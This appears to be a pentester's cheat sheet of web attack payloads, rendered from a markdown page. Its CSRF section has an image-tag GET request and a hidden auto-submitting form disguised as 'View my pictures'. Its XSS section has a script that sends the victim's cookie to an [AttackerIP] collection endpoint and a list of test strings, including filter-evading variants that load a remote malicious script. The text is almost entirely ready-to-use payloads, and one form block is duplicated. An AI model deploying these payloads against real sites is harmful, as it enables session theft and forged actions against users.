 







> **CSRF**

GET:
{% highlight html %}
<img src="http://<ip_of_site>/form.php?<parameter>=<value>
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}

> **XSS**

Get Cookie:
{% highlight html %}
<script>document.location='http://[AttackerIP]/cgi-bin/grab.cgi?'+docment.cookie;</script>
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}



> **XSS Test Strings**

{% highlight html %}
'';!--"<XSS>=&{()}
{% endhighlight %}

{% highlight html %}
<script>alert(document.cookie);</script>

<script type="text/vbscript">alert(DOCUMENT.COOKIE)</script>

<script src=http://www.example.com/malicious-code.js></script>

%3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e

\x3cscript src=http://www.example.com/malicious-code.js\x3e\x3c/script\x3e

>"><script>alert("XSS")</script>&

"><STYLE>@import"javascript:alert('XSS')";</STYLE>

<IMG SRC="javascript:alert('XSS');">

<IMG SRC=javascript:alert('XSS')>

<IMG SRC=JaVaScRiPt:alert('XSS')> 
